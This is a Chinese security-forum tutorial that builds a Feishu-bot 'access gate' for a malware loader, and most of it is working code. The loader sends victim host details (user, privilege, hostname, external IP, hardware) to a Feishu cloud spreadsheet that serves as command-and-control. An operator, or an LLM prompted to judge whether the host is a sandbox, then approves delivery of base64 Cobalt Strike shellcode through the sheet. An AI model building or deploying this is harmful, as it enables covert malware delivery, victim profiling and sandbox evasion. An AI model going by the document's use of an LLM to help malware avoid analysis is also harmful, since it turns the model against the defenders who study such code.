# 基于飞书机器人准入平台的实现-先知社区

> **来源**: https://xz.aliyun.com/news/18092  
> **文章ID**: 18092

---

给出<https://xz.aliyun.com/course-view?id=34>的代码实现

项目地址: <https://github.com/Arcueld/FeishuGate>

# 基于飞书机器人准入平台的实现

首先创建一个交互卡片机器人

<https://open.feishu.cn/document/develop-a-card-interactive-bot/introduction> 按照文档一步步来即可



简要设置后在vps上运行bot 看看能不能跑起来





这样就跑起来了

机器人部分我们先放着 后面再来写具体的代码 先看看整体逻辑

## 准入逻辑

大体流程如下

当loader客户端上线后,会主动将本机的硬件及环境信息写入飞书云文档中,作为准入判断的基础数据源

Bot实时监听该文档的变更事件,一旦发现数据变更（即有客户端请求准入）便向指定群聊发送卡片

点击按钮后,会触发机器人后端的回调接口,记录判断结果并更新云文档中的准入状态字段

若确认准入,Bot会将加密后的shellcode填入对应表格字段 等待loader拉取

loader定时读取云文档中对应的准入状态与payload

接下来是实现过程

## 服务端实现过程

创建一个卡片 然后在bot的代码中创建对应的回调函数

<https://open.feishu.cn/cardkit/>

卡片随便写写



卡片中按钮的事件可以用于交互 回调函数后面再去bot的代码里实现 我们先把乱七八糟的东西准备好



创建一个云表格 在更多里添加文档应用 使得后续通过tenant\_access\_token访问的时候有权限



### 获取tenant\_access\_token

由于部分api没有提供调试渠道 要自己构建请求体 所以还是要先获取一下tenant\_access\_token

```
def fetch_tenant_access_token():
     request: InternalTenantAccessTokenRequest = InternalTenantAccessTokenRequest.builder() \
         .request_body(InternalTenantAccessTokenRequestBody.builder()
             .app_id(appid)
             .app_secret(app_secret)
             .build()) \
         .build()
 
     # 发起请求
     response: InternalTenantAccessTokenResponse = client.auth.v3.tenant_access_token.internal(request)
 
     # 处理失败返回
     if not response.success():
         lark.logger.error(
             f"client.auth.v3.tenant_access_token.internal failed, code: {response.code}, msg: {response.msg}, log_id: {response.get_log_id()}, resp: 
{json.dumps(json.loads(response.raw.content), indent=4, ensure_ascii=False)}")
         return
 
     return json.loads(response.raw.content.decode())["tenant_access_token"]
```

### 获取spreadsheet\_token

通过api https://open.feishu.cn/open-apis/wiki/v2/spaces/get\_node 获取到表格的 spreadsheet\_token

```
client = lark.Client.builder() \
     .app_id(appid) \
     .app_secret(app_secret) \
     .log_level(lark.LogLevel.DEBUG) \
     .build()
 
 def fetch_spreadsheet_token(token):
     request: GetNodeSpaceRequest = GetNodeSpaceRequest.builder() \
         .token(token) \
         .obj_type("wiki") \
         .build()
 
     # 发起请求
     response: GetNodeSpaceResponse = client.wiki.v2.space.get_node(request)
 
     # 处理失败返回
     if not response.success():
         lark.logger.error(
             f"client.wiki.v2.space.get_node failed, code: {response.code}, msg: {response.msg}, log_id: {response.get_log_id()}, resp: 
{json.dumps(json.loads(response.raw.content), indent=4, ensure_ascii=False)}")
         return
 
     # 处理业务结果
     lark.logger.info(lark.JSON.marshal(response.data, indent=4))
     return json.loads(lark.JSON.marshal(response.data, indent=4))["node"]["obj_token"]
```

### 获取sheet\_id

以确认具体操作的工作表

```
def fetch_sheet_id(spreadsheet_token):
     request: QuerySpreadsheetSheetRequest = QuerySpreadsheetSheetRequest.builder() \
         .spreadsheet_token(spreadsheet_token) \
         .build()
 
     # 发起请求
     response: QuerySpreadsheetSheetResponse = client.sheets.v3.spreadsheet_sheet.query(request)
 
     # 处理失败返回
     if not response.success():
         lark.logger.error(
             f"client.sheets.v3.spreadsheet_sheet.query failed, code: {response.code}, msg: {response.msg}, log_id: {response.get_log_id()}, resp: 
{json.dumps(json.loads(response.raw.content), indent=4, ensure_ascii=False)}")
         return
 
     # 处理业务结果
     lark.logger.info(lark.JSON.marshal(response.data, indent=4))
     return json.loads(lark.JSON.marshal(response.data, indent=4))["sheets"][0]["sheet_id"]
```

### 从表中读取数据

后续bot需要从表中读取数据 先放着 暂时这么规划数据



```
def _fetch_data(table_range:str) -> json:
     url = f"https://open.feishu.cn/open-apis/sheets/v2/spreadsheets/{spreadsheet_token}/values/{sheet_id}!{table_range}"
     headers = {
         "Authorization": "Bearer " + fetch_tenant_access_token(),
     }
     res = requests.get(url,headers=headers)
 
     if res.status_code == 200:
         print("数据查询成功")
         return res.json()["data"]["valueRange"]["values"]
     else:
         print("数据查询失败")
         print(res.text)
 
 
 def fetch_data_basic_info(index) -> json:
     return _fetch_data(f"A{index}:E{index}")
 
 def fetch_data_env_info(index) -> json:
     return _fetch_data(f"G{index}:L{index}")
```

### 在表中插入数据

loader这块的,由于数据不是很复杂就直接构建json字符串不使用库了

<https://open.feishu.cn/document/server-docs/docs/sheets-v3/data-operation/write-data-to-a-single-range>

```
void insert_data() {
 
     std::string url = ENCRYPT_STR("https://open.feishu.cn/open-apis/sheets/v2/spreadsheets/") + SpreadsheetToken + ENCRYPT_STR("/values");
     std::stringstream ss;
 
     std::string index = std::to_string(g_index);
     std::string timeStr = getCurrentTime();
     std::string userStr = GetUsername();
     std::string privilegeStr = GetAccountPrivilege();
     std::string hostnameStr = GetHostname();
 
     g_send_time = timeStr;
 
     std::string physicalMemoryStr = std::to_string(GetPhysicalMemory());
     std::string cpuCoreNumStr = std::to_string(GetCpuCoreNum());
     std::string bootTimeStr = std::to_string(GetBootTimeMinute());
     std::string resolutionStr = GetResolution();
     std::string tempFileNumStr = std::to_string(GetTempFileNum());
     std::string currentExeDirStr = GetCurrentExeDir();
     std::string parentProcessNameStr = GetParentProcessName();
     std::string tempFileCountStr = getTempFileCountStr();
 
 
     ss << ENCRYPT_STR(R"({"valueRange":{"range":")") << SheetID << "!A" << index << ":M20"
         << ENCRYPT_STR(R"(","values":[[")") << timeStr
         << ENCRYPT_STR(R"(",")") << privilegeStr
         << ENCRYPT_STR(R"(",")") << userStr
         << ENCRYPT_STR(R"(",")") << hostnameStr
         << ENCRYPT_STR(R"(",")") << fetch_current_external_ip()
         << ENCRYPT_STR(R"(",)") << ENCRYPT_STR("null")
         << ENCRYPT_STR(R"(,")") << cpuCoreNumStr
         << ENCRYPT_STR(R"(",")") << physicalMemoryStr
         << ENCRYPT_STR(R"(",")") << resolutionStr
         << ENCRYPT_STR(R"(",")") << currentExeDirStr
         << ENCRYPT_STR(R"(",")") << parentProcessNameStr
         << ENCRYPT_STR(R"(",")") << bootTimeStr
         << ENCRYPT_STR(R"(",")") << tempFileCountStr
         << ENCRYPT_STR(R"("]]}})");
 
     std::string body = ss.str();
 
     std::vector<std::string> headers = {
         ENCRYPT_STR("Content-Type: application/json"),
         ENCRYPT_STR("Authorization: Bearer ") + fetch_tenant_access_token(),
         ENCRYPT_STR("User-Agent: "Google Chrome";v="135", "Not - A.Brand";v="8", "Chromium";v="135"")
     };
 
     std::string response = client.sendRequest(url, ENCRYPT_STR("PUT"), body, headers);
 
 }
```

loader自行封装一个请求的函数

效果类似这样







## bot

现在回头来实现bot

bot要实现的有这么几个 1. 监控表格变化 2. 读取表格中的基本信息回传给飞书群 3. 准入和拒绝回调

要监控云文档 首先bot要开启订阅云文档事件权限



订阅文件编辑事件 注意不是多维表格



```
def init():
     # 构造请求对象
     request: SubscribeFileRequest = SubscribeFileRequest.builder() \
         .file_token(spreadsheet_token) \
         .file_type("sheet") \
         .build()
 
     # 发起请求
     response: SubscribeFileResponse = client.drive.v1.file.subscribe(request)
 
     # 处理失败返回
     if not response.success():
         lark.logger.error(
             f"client.drive.v1.file.subscribe failed, code: {response.code}, msg: {response.msg}, log_id: {response.get_log_id()}, resp: 
{json.dumps(json.loads(response.raw.content), indent=4, ensure_ascii=False)}")
         return
 
     print(response.msg)
```

实际上这个api直接官网上调一次就行了

此时已经监控上指定文档的变化了

<https://open.feishu.cn/document/server-docs/docs/drive-v1/event/list/file-edited>

然后我们写对应的回调 当表格发生变化时且非bot写 发送卡片

```
def do_p2_drive_file_edit_v1(data: lark.drive.v1.P2DriveFileEditV1) -> None:
     index = get_index()
     if not isBOT:
         send_permission_card("chat_id",group_id,index)
 
 
 # 注册事件回调
 event_handler = (
     lark.EventDispatcherHandler.builder("", "")
     .register_p2_drive_file_edit_v1(do_p2_drive_file_edit_v1)
     .build()
 )
```

### 发送卡片

<https://open.feishu.cn/document/server-docs/im-v1/message/create>

即发送消息 该api需要群聊id



#### 获取群id

<https://open.feishu.cn/document/server-docs/group/chat/chat-id-description>



获取完可以发送卡片了 卡片记得发布

```
def send_message(receive_id_type, receive_id, msg_type, content):
     request = (
         CreateMessageRequest.builder()
         .receive_id_type(receive_id_type)
         .request_body(
             CreateMessageRequestBody.builder()
             .receive_id(receive_id)
             .msg_type(msg_type)
             .content(content)
             .build()
         )
         .build()
     )
     response = client.im.v1.message.create(request)
     if not response.success():
         raise Exception(
             f"client.im.v1.message.create failed, code: {response.code}, msg: {response.msg}, log_id: {response.get_log_id()}"
         )
     return response
 
 def send_permission_card(receive_id_type, receive_id, index):
     data_basic_info= fetch_data_basic_info(index)[0]
     send_time, privilege, username, hostname, external_ip = data_basic_info
 
     data_env_info = fetch_data_env_info(index)[0]
     core_num, ram, resolution, current_path, parent_process, boot_time, tempfile_num = data_env_info
 
 
     try:
         from api import get_sandbox_analysis
         sandbox_result = get_sandbox_analysis(index)
         print(f"是否沙箱: {sandbox_result['is_sandbox']}")
         print(f"置信度: {sandbox_result['confidence_score']}%")
         print(f"详细分析: {sandbox_result['analysis']}")
     except (ValueError, Exception) as e:
         print(f"沙箱检测失败: {str(e)}")
         sandbox_result = {
             'is_sandbox': "null",
             'confidence_score': "null",
             'analysis': "null"
         }
 
     content = json.dumps(
         {
             "type": "template",
             "data": {
                 "template_id": PERMISSION_CARD_ID,
                 "template_variable": {
                     "send_time": send_time,
                     "privilege": privilege,
                     "username": username,
                     "hostname": hostname,
                     "external_ip": external_ip,
                     "index": index,
                     "core_num": core_num,
                     "ram": ram,
                     "resolution": resolution,
                     "current_path": current_path,
                     "parent_process": parent_process,
                     "boot_time": boot_time,
                     "is_sandbox": str(sandbox_result['is_sandbox']),
                     "confidence_score": str(sandbox_result['confidence_score']),
                     "analysis": str(sandbox_result['analysis'])
                 },
             },
         }
     )
     return send_message(receive_id_type, receive_id, "interactive", content)
 
 recent_send_times = set()
 
 def do_p2_drive_file_edit_v1(data: lark.drive.v1.P2DriveFileEditV1) -> None:
     index = get_index()
     recv_data = fetch_data_basic_info(index)[0]
     send_time = recv_data[0]
     if send_time in recent_send_times:
         return        
     
     recent_send_times.add(send_time)
 
     # 防抖动
     try:
         send_permission_card("chat_id", group_id, index)
         increment_index()
     except:
         pass
 
 # 注册事件回调
 event_handler = (
     lark.EventDispatcherHandler.builder("", "")
     .register_p2_drive_file_edit_v1(do_p2_drive_file_edit_v1)
     .build()
 )
```



### 回调

首先订阅卡片回传交互


注册卡片按钮的回调

这块官方文档没找到怎么写 翻的github

<https://github.com/larksuite/oapi-sdk-python/blob/99e730f03dd46f95547e0cef11b644d8f2fce2f4/samples/ws/sample.py#L15>

改改逻辑注册上回调

当点击准入的时候下发shellcode到云文档




cs steger的shellcode 在base64编码后需要不到1200个字符

stegless 的则要接近380000

这里拆分了payload传

```
def split_payload(payload):
     length = (len(payload) + 39999) // 40000  
     payloads = [payload[i * 40000:(i + 1) * 40000] for i in range(length)]
     return payloads
 
 
 def _insert_payload(index, is_access, payload):
     if payload is not None:
         payloads = split_payload(payload)
         
         values = []
         values.append(str(is_access))
         for i in range(len(payloads)):
             values.append(payloads[i])
         
 
     else:
         values = [str(is_access), None]
 
     data = {
         "valueRange": {
             "range": f"{sheet_id}!O{index}:AO20",
             "values": [values]
         }
     }   
     _insert_data(data)
 
 def insert_payload(index, is_access):
     if is_access:
         with open("payload.bin", "rb") as f:
             payload = f.read()
             bass64_payload = base64.b64encode(payload).decode()
             _insert_payload(index, is_access, bass64_payload)
     else:
         _insert_payload(index, is_access, None)
```



# AI接入

写文章的时间间隔有点长 到这里的时候修改了一下表的结构 卡片的结构 以最终项目代码为准

至此 基于人工的准入完成了,接下来我们接入AI 实现自动判断目标主机是否为沙箱环境,自动准入

这里用meta-llama/llama-3.3-8b-instruct:free模型

api.py 利用提示词约束ai的输出模板

```
import os
 import json
 import requests
 from typing import Dict, Any
 
 OPENROUTER_API_KEY = os.getenv("OPENROUTER_API_KEY")
 OPENROUTER_API_URL = "https://openrouter.ai/api/v1/chat/completions"
 
 def analyze_sandbox_environment(system_info: Dict[str, Any]) -> Dict[str, Any]:
     """
     Analyze system information using OpenRouter.ai to detect if the environment is a sandbox.
     
     Args:
         system_info: Dictionary containing system information from send_permission_card
         
     Returns:
         Dictionary containing analysis results and confidence score
     """
     if not OPENROUTER_API_KEY:
         raise ValueError("OPENROUTER_API_KEY environment variable is not set")
 
     analysis_prompt = f"""
     Analyze the following system information to determine if it's running in a sandbox environment.
     Consider these factors:
     1. Hardware characteristics (CPU cores, RAM)
     2. System uptime
     3. Process information
     4. Path information
     5. Username and hostname patterns
     6. IP address characteristics
     7. Temporary file count
     
     Please provide your analysis in the following exact format:
     
     System Information:
     - CPU Cores: {system_info.get('core_num')}
     - RAM: {system_info.get('ram')} GB
     - Resolution: {system_info.get('resolution')}
     - Current Path: {system_info.get('current_path')}
     - Parent Process: {system_info.get('parent_process')}
     - Boot Time: {system_info.get('boot_time')} minutes
     - Username: {system_info.get('username')}
     - Hostname: {system_info.get('hostname')}
     - External IP: {system_info.get('external_ip')}
     - Temporary File Count: {system_info.get('tempfile_num')}
     
     Please provide your analysis in the following exact format:
 
     Is this likely a sandbox? [Yes/No]
     Confidence score: [0-100]
     
     Key indicators:
     [List the key indicators that led to this conclusion]
     
     Recommendations:
     [List recommendations for additional checks]
     
     Note: Please strictly follow this format. The confidence score should be a number between 0 and 100, without any additional text or symbols.
     """
 
     headers = {
         "Authorization": f"Bearer {OPENROUTER_API_KEY}",
         "Content-Type": "application/json",
         "X-Title": "Sandbox Detection"  
     }
 
     data = {
         "model": "meta-llama/llama-3.3-8b-instruct:free",  
         "messages": [
             {
                 "role": "system",
                 "content": "You are an expert in system security and sandbox detection. Provide your analysis in a clear, structured format. Always include a confidence score as a number between 0 and 100."
             },
             {
                 "role": "user",
                 "content": analysis_prompt
             }
         ],
         "temperature": 0.3  # Lower temperature for more consistent analysis
     }
 
     try:
         response = requests.post(OPENROUTER_API_URL, headers=headers, json=data)
         response.raise_for_status()
         
         result = response.json()
         analysis = result['choices'][0]['message']['content']
         
         # Extract information with better error handling
         try:
             is_sandbox = "Yes" in analysis.split("Is this likely a sandbox?")[1].split("
")[0]
         except IndexError:
             print("Warning: Could not parse sandbox status from response")
             is_sandbox = False
             
         try:
             confidence_text = analysis.split("Confidence score:")[1].split("
")[0].strip()
             confidence_score = int(confidence_text)
         except (IndexError, ValueError) as e:
             print(f"Warning: Could not parse confidence score from response: {str(e)}")
             confidence_score = 0
         
         return {
             "is_sandbox": is_sandbox,
             "confidence_score": confidence_score,
             "analysis": analysis
         }
         
     except requests.exceptions.RequestException as e:
         print(f"
=== API Request Error ===")
         print(f"Error: {str(e)}")
         if hasattr(e.response, 'text'):
             print(f"Response: {e.response.text}")
         print("========================
")
         raise Exception(f"Error calling OpenRouter API: {str(e)}")
 
 def get_sandbox_analysis(index: int) -> Dict[str, Any]:
     """
     Get sandbox analysis for a specific system index.
     
     Args:
         index: The system index to analyze
         
     Returns:
         Dictionary containing sandbox analysis results
     """
     from tools import fetch_data_basic_info, fetch_data_env_info
     
     # Fetch system information
     basic_info_result = fetch_data_basic_info(index)
     env_info_result = fetch_data_env_info(index)
     
     # Check if we got valid data
     if not basic_info_result or not env_info_result:
         raise ValueError(f"Failed to fetch data for index {index}")
     
     basic_info = basic_info_result[0]
     env_info = env_info_result[0]
     
     # Check if all basic info fields have values
     if len(basic_info) < 5 or any(not value for value in basic_info[:5]):
         print(f"Warning: Incomplete basic info for index {index}")
         return {
             "is_sandbox": False,
             "confidence_score": 0,
             "analysis": "Incomplete system information, please verify manually"
         }
     
     # Check if all env info fields have values
     if len(env_info) < 7 or any(not value for value in env_info[:7]):
         print(f"Warning: Incomplete environment info for index {index}")
         return {
             "is_sandbox": False,
             "confidence_score": 0,
             "analysis": "Incomplete environment information, please verify manually"
         }
     
     system_info = {
         'send_time': basic_info[0],
         'privilege': basic_info[1],
         'username': basic_info[2],
         'hostname': basic_info[3],
         'external_ip': basic_info[4],
         'core_num': env_info[0],
         'ram': env_info[1],
         'resolution': env_info[2],
         'current_path': env_info[3],
         'parent_process': env_info[4],
         'boot_time': env_info[5],
         'tempfile_num': env_info[6],
     }
     
     return analyze_sandbox_environment(system_info)
```

对应卡片的修改

